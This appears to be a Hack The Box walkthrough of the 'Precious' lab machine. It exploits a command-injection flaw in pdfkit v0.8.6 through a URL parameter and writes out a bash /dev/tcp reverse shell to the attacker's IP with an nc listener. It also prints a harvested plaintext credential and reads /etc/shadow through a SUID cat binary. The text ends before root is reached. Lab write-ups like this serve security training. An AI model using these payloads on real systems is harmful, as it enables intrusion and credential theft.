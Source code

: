 # Precius

### Nmap:

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp   open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://precious.htb/
9000/tcp open  cslistener?
```

### precius.htb

After investigating the web, we discober the possibility to upload html files from our local http server to the remote machine and receive the pdf.

To upload a  html file: `-m http.server 8888` and create a web.html example in that folder.

Part of the esponse to the Post request:

```
<rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:creator>
   <rdf:Seq>
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
   </rdf:Seq>
  </dc:creator>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

The file is created with pdfkit v0.8.6

Searching on google we find this web with a vulnerability:

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

So we try with the same command `sleep 5`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

And after 5 seconds, we obtain the prompt with the PDF :clap:

So we try the same with a reverse shell:

On our machine `nc -lnvp 4444`

On the web(using a bash reverse shell):

```bash
http://10.10.16.81:8888/?name={'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.81/4444 <&1'`'}
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Now we are on the system as ruby.

In the .bundle folder, there is a file config with the henry's credentials `henry:Q3c1AqGHtoI0aXAYFH`

Testing SUID with `find / -perm -4000 2> /dev/null` there are several options. One is cat, so lets try read the /etc/shadow. Works!

Lets try to read /root/root.txt




